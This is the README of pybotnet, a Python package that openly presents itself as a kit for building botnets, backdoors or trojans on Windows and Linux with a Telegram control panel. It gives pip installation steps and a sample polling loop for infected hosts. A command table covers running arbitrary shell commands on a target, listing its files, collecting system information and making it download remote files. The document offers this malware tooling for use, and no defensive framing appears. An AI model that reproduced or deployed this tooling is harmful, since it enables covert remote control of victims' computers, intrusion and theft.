   
<h1 align="center">pybotnet</h1>
<p align="center"> A Python module for building [botnet ,backdoor or trojan] for windows and linux with Telegram control panel </p>

### See the [TODO List](https://github.com/onionj/pybotnet/blob/master/TODOLIST.MD) if you want to *help* me <3
### [pybotnet](https://github.com/onionj/pybotnet) in github
### Features:
* get command from telegram and execute scripts 
* get command and send message by third party proxy
* get target info 
* sleep source by Optional message
* get ls (dirctory list)
* export file to targets system (target download a link :) )
* ... \
for more see commands table end of this page 


### Requirements:

* Python 3.6 or higher.
* Telegram account
* your account number ID (get it from @userinfobot)
* telegram api token (Get it from the telegram botfather)

### Usage:
```
pip install pybotnet
```

```python
# this is sample_code.py 

from pybotnet import pybotnet
import time


# ! rename configs.py.sample to configs.py
# ! and edit configs.py data
from configs import TELEGRAM_TOKEN, ADMIN_CHAT_ID

# * if you compile code without shell: is_sheel=False
# * show_log: just for debugging
# * send_system_data: send system short info in bot messages

bot = pybotnet.PyBotNet(TELEGRAM_TOKEN, ADMIN_CHAT_ID,
                        show_log=True, send_system_data=True, is_shell=True)

delay = 10

while True:
    print('*'*100)
    bot.get_and_execute_scripts_by_third_party_proxy()
    time.sleep(delay)

```

### Commmands:
*Send this COMMANDs to your api bot in telegram, using the admin account.* \
*If you want the command to run only on one system, write the MAC address of that system first:* \
 `66619484755211 get_info`

COMMAND | Sample | DO THIS | Minimum version required | tested on |
--------|--------|---------|--------------------------|----------|
`get_info` | `get_info` |return system info | 0.06 | windows, linux |
`do_sleep <scconds> <message (Optional)>` | `do_sleep 99999 hi, i see you!` | \<if message != none : print(message) > ; time.sleep(seccond) | 0.08 | windows, linux |
`cmd <system command>` | `cmd mkdir new_folder` | run system command in shell or cmd (Be careful not to give endless command like `ping google.com -t`  in windows or `ping google.com` in linux)  TODO:add timeout| 0.07 | windows, linux|
`ls <route>` | `ls C:\ `,` ls /home` |Returns a list of folders and files in that path | 0.09 | windows, linux |
`export_file <download_link>` | `export_file https://github.com/onionj/pybotnet/archive/refs/heads/master.zip` |target donwload this file and save to script path route| 0.14 | windows |
